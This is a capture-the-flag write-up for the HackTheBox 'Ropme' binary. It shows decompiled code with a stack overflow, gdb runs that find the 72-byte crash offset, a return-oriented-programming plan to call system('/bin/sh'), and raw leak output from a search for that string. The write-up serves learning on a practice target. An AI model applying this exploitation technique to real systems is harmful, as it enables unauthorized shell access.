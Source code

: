 # Ropme

Completed: Yes
Date: Jun 22, 2021 → Jun 26, 2021
Platform: HackTheBox

Let's start with ghidra:

```bash
undefined8 main(void)

{
  char local_48 [64];
  
  puts("ROP me outside, how \'about dah?");
  fflush(stdout);
  fgets(local_48,500,stdin);
  return 0;
}
```

Immediately you can see buffer overflow despite using of `fgets()`.

The next point is no find out on which offset the program will crash.

```bash
gef➤  r < <(python -c 'print "A" * 64')
Starting program: /home/kali/Downloads/ropme < <(python -c 'print "A" * 64')
ROP me outside, how 'about dah?
[Inferior 1 (process 5648) exited normally]
gef➤  r < <(python -c 'print "A" * 72')
Starting program: /home/kali/Downloads/ropme < <(python -c 'print "A" * 72')
ROP me outside, how 'about dah?

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e1000a in ?? () from /lib/x86_64-linux-gnu/libc.so.6
```

Okay, so after 64 bytes, we overwrote the rbp register and got segfault. The next 8 bytes (x64 binary) will be our target as RIP register. 

As the name of the challenge said `Ropme` we need to use Return-Oriented programming. Its concept is that you have chunks of addresses called gadgets that are just addresses of instructions such as `something action with register + ret instruction`. That's why this method is called Return because you will return after each instruction. So, if you will put these addresses in a defined sequence, you will execute a chain of instructions.

Here, this method is easy. In x64 arch, you need to do syscall with this convention:

[https://courses.cs.washington.edu/courses/cse378/10au/sections/Section1_recap.pdf](https://courses.cs.washington.edu/courses/cse378/10au/sections/Section1_recap.pdf).

The first argument need to be stored in RDI register. The next one in RSI and so on.

I will execute just call `system` with `/bin/sh`. Therefore, I need one gadget `pop rdi; ret`which will pop next address right into RDI and return. After this gadget, need to put address of /bin/sh string and then, call of system function.


[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367